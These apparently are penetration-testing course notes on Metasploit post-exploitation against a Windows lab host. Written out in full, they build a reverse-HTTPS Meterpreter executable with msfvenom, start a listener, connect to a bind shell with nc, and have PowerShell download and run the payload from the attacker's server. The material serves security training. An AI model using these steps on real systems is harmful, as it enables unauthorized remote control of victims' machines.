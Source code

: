## Performing Post-Exploitation with Metasploit
Once we gain access to a target machine, we can move on to the post-exploitation phase where we gather information, take steps to maintain our access, pivot to other machines, elevate our privileges, and so on
+ The Metasploit Framework has several interesting post-exploitation features that can simplify many aspects of the process
+ In addition to the built-in Meterpreter commands, a number of post-exploitation MSF modules take an active session as an argument and perform post-exploitation operations on them

### Core Meterpreter Post-Exploitation Features
In previous sections, we used the Meterpreter payload to navigate the file system, obtain information about the target system, and transfer files to and from the machine
+ Apart from the commands we already used, Meterpreter contains numerous post-exploitation features

We should note that the Linux Meterpreter payload contains fewer post-exploitation features than the Windows one
+ Therefore, we'll explore these features on the Windows target `ITWK01`
+ Let's assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system

To begin, we'll create an executable Windows binary with msfvenom containing a non-staged Meterpreter payload and name it **`met.exe`**:
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
```

After we set the payload and its options, we launch the previously activated multi/handler module in Metasploit:
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

Next, we start a Python3 web server to serve **met.exe**
+ Then, we connect to the bind shell on port 4444 on ITWK01
+ Once connected, we can download **met.exe** with PowerShell and start the Windows binary
```
kali@kali:~$ nc 192.168.50.223 4444
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

PS C:\Users\dave> .\met.exe
.\met.exe

PS C:\Users\dave>
```
